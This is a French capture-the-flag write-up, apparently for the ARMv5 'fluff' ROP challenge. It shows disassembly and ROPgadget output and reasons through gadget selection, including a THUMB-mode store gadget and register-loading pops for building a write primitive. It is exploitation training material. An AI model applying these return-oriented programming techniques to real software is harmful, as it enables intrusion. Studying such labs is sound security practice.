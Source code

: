 Le programme embarque un fonction inutilisée mais qui appelle la fonction print_file.
De cet fait la fonction possède une entrée dans la PLT.

    ┌ 24: sym.usefulFunction ();
    │           ; var int32_t var_4h @ sp+0x4
    │           0x000105d0      00482de9       push {fp, lr}
    │           0x000105d4      04b08de2       add fp, var_4h
    │           0x000105d8      08009fe5       ldr r0, str.nonexistent     ; [0x10674:4]=0x656e6f6e ; "nonexistent"
    │           0x000105dc      b3ffffeb       bl sym.imp.print_file
    │           0x000105e0      0000a0e1       mov r0, r0                  ; 0x10674 ; "nonexistent"
    └           0x000105e4      0088bde8       pop {fp, pc}

Le programme embarque en particulier un symbol attirant notre attention sur des gadgets utiles :

            ;-- questionableGadgets:
            0x000105ec      0b00bde8       pop {r0, r1, r3}
            0x000105f0      11ff2fe1       bx r1


## La librairie


### Recherche de gadgets

Pour écrire notre chaîne :

Le seul gadget d'ecriture (str) est le suivant :

    0x000101c8 : strbhs r0, [r0], #-0x580 ; andeq r0, r0, r4 ; andeq r0, r0, r8 ; andeq r0, r0, sp ; ldmda r4!, {r8, sb, sl, fp, sp, pc}

strbhs stock le contenu de r0 à l'adresse pointée par r0 - 0x580.

Il n'est donc pas utilisable.

En mode THUMB.

    # ROPgadget --binary fluff_armv5 --thumb
    Gadgets information
    ============================================================


    0x000103ea : str r6, [r5, #0x44] ; bx r0
    0x000103e8 : str r7, [r3, #0x54] ; str r6, [r5, #0x44] ; bx r0

On a un gadget ne mode thumb qui nous permet de stocker le contenu de r6 à l'adresse contenude dans r5-0x44.

    0x000103ea : str r6, [r5, #0x44] ; bx r0

Pour charger r5 et r6 on a en mode 32 bits :
    0x00010658 : pop {r4, r5, r6, r7, r8, sb, sl, pc}

Et pour charger r0 en vue de bx r0  et passer en mode thumb :

    0x000105ec     pop {r0, r1, r3}; bx r1
